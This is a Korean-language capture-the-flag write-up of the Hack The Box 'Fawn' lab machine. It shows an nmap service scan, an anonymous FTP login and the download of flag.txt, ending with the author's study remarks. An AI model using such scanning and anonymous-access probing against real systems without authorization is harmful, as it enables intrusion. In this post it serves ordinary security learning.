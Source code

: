 ```yaml
---
title: HTB Fawn Write-up
categories: [HackTheBox, Basic]
tags: [HackTheBox]
images:
    path: /assets/image_post/20240203134342.png
---
```

핵더박스 두번째 기본 문제
![](../assets/image_post/20240203132223.png)
5번 | 평소에 nmap은 -Pn 옵션이나 기본 옵션으로만 사용해서 이런 옵션이 있는지 몰랐다.
![](../assets/image_post/20240203132929.png)
``` bash
 ✘ read-min 🍻   ~/Documents/Git/read-min.github.io   main  nmap -sV 10.129.131.24
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-03 13:29 KST
Nmap scan report for 10.129.131.24
Host is up (0.27s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.51 seconds
```

ftp에 접속하는 방법은 아래와 같다.
``` bash
 read-min 🍻   ~/Documents/Git/read-min.github.io   main  ftp 10.129.131.24

Connected to 10.129.131.24.
220 (vsFTPd 3.0.3)
Name (10.129.131.24:km): anonymous
331 Please specify the password.
Password:
230 Login successful.
```
어떤 파일이 있는지 확인해본 결과 flag.txt 파일이 존재한다. get 명령어를 통해 다운로드 후 확인하면 플래그 획득이 가능하다.
``` bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 0.000674 seconds (46.4 kbytes/s)
```
쉽지만 차근 차근 기초부터 쌓아간다는 마음으로 꾸준히 해보자. 공부보단 즐긴다는 느낌으로
![](../assets/image_post/20240203134342.png)